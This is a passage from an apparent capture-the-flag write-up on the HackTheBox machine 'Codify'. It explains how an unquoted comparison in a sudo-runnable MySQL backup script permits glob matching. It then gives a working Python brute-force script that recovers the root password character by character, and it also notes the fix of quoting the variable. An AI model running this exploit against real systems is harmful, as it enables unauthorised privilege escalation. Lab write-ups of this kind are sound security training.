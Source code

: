 ```bash
databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

The image below highlights the script vulnerability. In Bash, if the right side of the `==` operator in a conditional expression (within double square brackets `[[ ... ]]`) is not quoted, Bash performs pattern matching (also known as globbing) rather than interpreting it as a string.

![mysql-backup.sh script vulnerability](/images/HTB-Codify/script-vulnerability.png)

For example if the password is `hello`, both `[[$DB_PASS == hello]]` and `[[$DB_PASS == h*]]` will match because `h*` is a pattern that matches any string starting with the letter `h`. Knowing this, bruteforcing the password becomes a viable solution.

> To fix this, you should quote the variable `$USER_PASS` in the comparison, like so: `if [[ $DB_PASS == "$USER_PASS" ]]; then`. This ensures that the value of `$USER_PASS` is treated as a string, not a pattern.

Below is the Python script I used

```Python
import string
import os

chars = string.ascii_letters + string.digits
password=''
next=1

print("[+] initializing bruteforce script...")
print("[+] bruteforce in progress, please wait...")
while next==1:
        for i in chars:
                errorlevel=os.system("echo "+password+i+"* | sudo /opt/scripts/mysql-backup.sh >/dev/null 2>&1")
                if errorlevel==0:
                        password=password+i
                        print("[+] new character found: "+password)
                        next=1
                        break
                else: next=0
print("[+] process terminated, root password is: "+password)
```
